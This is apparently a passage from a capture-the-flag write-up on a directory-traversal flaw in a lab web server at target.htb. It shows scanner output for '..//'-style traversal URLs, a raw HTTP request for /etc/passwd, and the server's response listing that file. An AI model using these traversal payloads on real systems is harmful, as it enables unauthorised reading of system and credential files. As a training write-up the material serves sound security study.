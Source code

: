 ```

[*] Testing URL: http://target.htb/uploads/..//etc//hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..//..//etc//hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..//..//..//etc//hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..//..//..//..//etc//hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..///etc///hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..///..///etc///hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..///..///..///etc///hosts <- VULNERABLE
[*] Testing URL: http://target.htb/uploads/..///..///..///..///etc///hosts <- VULNERABLE
```

I could use `../` follow by an absolute path to extract any file from the server.

```http
GET /uploads/..//etc/passwd HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.3
Date: Sun, 05 Jun 2022 00:50:50 GMT
Content-Disposition: inline; filename=passwd
Content-Type: application/octet-stream
Content-Length: 1172
Last-Modified: Thu, 16 Sep 2021 19:13:31 GMT
Cache-Control: no-cache
ETag: "1631819611.0-1172-393413677"
Date: Sun, 05 Jun 2022 00:50:50 GMT
Connection: close

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```
